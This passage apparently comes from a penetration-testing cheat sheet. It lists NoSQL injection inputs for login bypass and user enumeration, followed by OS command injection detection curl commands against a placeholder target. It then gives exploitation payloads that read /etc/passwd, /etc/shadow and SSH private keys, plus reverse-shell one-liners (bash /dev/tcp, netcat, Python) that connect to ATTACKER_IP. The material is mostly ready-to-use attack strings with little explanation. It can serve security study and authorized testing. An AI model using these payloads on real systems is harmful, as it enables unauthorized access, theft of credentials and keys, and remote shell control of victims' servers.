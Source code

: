 **Testing methodology:**

```bash
# 1. Test for NoSQL injection in login
{"username":"admin","password":{"$gt":""}}  # $gt = greater than (always true)

# 2. Test in search functionality
{"search":{"$where":"this.name == 'test'"}}

# 3. Test in user enumeration
{"username":{"$regex":"^admin"},"password":"anything"}
```

### Command Injection (OS Command Injection)

**Detection:**

```bash
# Test for command injection with sleep
curl "http://target.com/ping?host=127.0.0.1; sleep 10"
# If response takes 10+ seconds = vulnerable

# Test for command injection with output
curl "http://target.com/ping?host=127.0.0.1; whoami"
# If response contains username = vulnerable
```

**Common injection points:**

```bash
# Ping utility
host=127.0.0.1; cat /etc/passwd
host=127.0.0.1 | whoami
host=127.0.0.1 && id
host=`whoami`
host=$(whoami)

# File operations
filename=test.txt; cat /etc/passwd
filename=test.txt | ls -la

# ImageMagick convert
convert=input.jpg; cat /etc/passwd; output.png
```

**Exploitation payloads:**

```bash
# Linux command injection:
; cat /etc/passwd
; cat /etc/shadow
; cat ~/.ssh/id_rsa
; ls -la /var/www/html
; uname -a
; whoami
; id
; pwd

# Reverse shell (Linux)
; bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1
; nc ATTACKER_IP 4444 -e /bin/bash
; python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# Windows command injection:
; whoami
; ipconfig
```